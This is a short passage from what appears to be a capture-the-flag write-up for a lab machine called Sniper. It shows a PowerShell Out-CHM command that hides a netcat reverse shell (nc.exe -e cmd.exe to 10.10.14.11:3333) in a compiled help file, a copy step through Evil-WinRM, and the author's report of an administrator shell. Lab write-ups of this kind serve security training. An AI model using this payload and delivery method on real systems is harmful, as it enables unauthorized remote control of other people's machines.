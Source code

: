 `PS > Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.11 3333" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"`

Uploaded it to the server...

`*Evil-WinRM* PS C:\docs> copy \\10.10.14.11\test\doc.chm .`

And boom, got a shell as `administrator`:

![](/assets/images/htb-writeup-sniper/root.png)